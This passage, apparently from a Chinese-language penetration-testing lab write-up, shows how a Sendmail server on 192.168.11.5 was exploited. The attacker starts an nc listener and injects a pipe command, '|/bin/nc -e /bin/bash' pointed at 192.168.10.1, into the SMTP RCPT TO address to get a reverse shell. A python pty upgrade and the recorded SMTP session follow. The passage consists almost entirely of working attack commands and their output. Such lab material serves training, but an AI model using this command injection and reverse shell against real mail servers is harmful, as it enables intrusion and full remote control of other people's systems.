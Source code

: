 并在`192.168.10.1`上进行12234端口监听，在目标机器上发送返回shell的邮件：（多次实验，只有192.168.10.1能够反弹shell，该机器可能为运行着防火墙等重要的管理设备）

```bash
#测试漏洞
nc 192.168.11.5 25

ehlo you

# 端口监听
nc -nvlp 12234

#反弹shell
mail from:<>
rcpt to:<nobody+"|/bin/nc -e /bin/bash 192.168.10.1 12234"@localhost>
data
.

# 在反弹的shell处获得伪终端shell
python -c 'import pty; pty.spawn("/bin/sh")'

```


![](/img/game/TESTLAB/TESTLAB11/192_168_11_5_nc_返回shell.png)

```bash
root@kali:~/Desktop/testlab# nc 192.168.11.5 25
220 tl11-192-168-11-5.mail-dev ESMTP Sendmail 8.14.4/8.14.4/Debian-8+deb8u2; Thu, 28 Jun 2018 12:21:55 +0300; (No UCE/UBE) logging access from: [192.168.11.254](TEMP)-[192.168.11.254]
ehlo you
250-tl11-192-168-11-5.mail-dev Hello [192.168.11.254], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-AUTH DIGEST-MD5 CRAM-MD5
250-DELIVERBY
250 HELP
mail from:<>
250 2.1.0 <>... Sender ok
rcpt to:<nobody+"|/bin/nc -e /bin/bash 192.168.10.1 12234"@localhost>
250 2.1.5 <nobody+"|/bin/nc -e /bin/bash 192.168.10.1 12234"@localhost>... Recipient ok
data
354 Enter mail, end with "." on a line by itself
```